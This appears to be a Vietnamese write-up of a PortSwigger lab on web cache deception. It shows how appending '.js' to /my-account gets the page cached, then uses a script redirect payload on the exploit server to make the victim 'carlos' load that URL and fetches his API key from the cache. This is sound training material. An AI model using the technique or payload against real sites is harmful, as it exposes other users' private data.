




# Write-up: Exploiting path mapping for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do path mapping sai lệch, sử dụng phần mở rộng `.js` để lừa hệ thống cache lưu trữ trang `/my-account` của tài khoản `carlos`, lấy API key của `carlos`, và submit key để hoàn thành lab.

### Mục tiêu 
- Khai thác web cache deception để lấy API key của tài khoản `carlos` thông qua việc thao túng URL `/my-account` và submit key để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`, quan sát yêu cầu:
    `GET /my-account`
    - Thử thêm phần mở rộng ngẫu nhiên để kiểm tra cache bằng burp repeater:
        `GET /my-account/abc.js`
        - Lần 1: **Phản hồi**: X-Cache: miss, cho thấy nội dung chưa được cache.
            
        - Lần 2: **Phản hồi**: X-Cache: hit, xác nhận hệ thống cache lưu trữ nội dung `/my-account/abc.js`:
            

- **Quan sát**: Hệ thống cache xử lý `/my-account/abc.js` như file tĩnh, lưu trữ nội dung trang `/my-account`, gợi ý khả năng web cache deception.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để lừa nạn nhân (carlos) truy cập URL:
    ```javascript
    <script>document.location="https://lab-id.web-security-academy.net/my-account/1111.js"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng "Deliver exploit to victim":
        

- Kiểm tra cache để lấy nội dung trang `/my-account` của carlos:
    `GET /my-account/1111.js`
    - **Phản hồi**: `X-Cache: hit`, trả về trang `/my-account` của carlos, chứa API key `sIY3zOkckbCe61yaHYjmTyu3ULzekhDK`:

- Submit API key `sIY3zOkckbCe61yaHYjmTyu3ULzekhDK` qua chức năng submit của lab:
    - Phản hồi: Lab hoàn thành
        

- **Giải thích**: Lỗ hổng web cache deception xảy ra do hệ thống cache sai lầm lưu trữ trang `/my-account` như file tĩnh khi thêm `.js`, cho phép truy xuất nội dung nhạy cảm (API key của carlos) mà không cần xác thực.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng cách thêm phần mở rộng file tĩnh (như .js) để lừa hệ thống cache lưu trữ trang nhạy cảm.
- Nhận thức tầm quan trọng của việc cấu hình cache an toàn và kiểm tra path mapping để ngăn chặn truy xuất trái phép dữ liệu người dùng.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception để lấy API key của người dùng, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*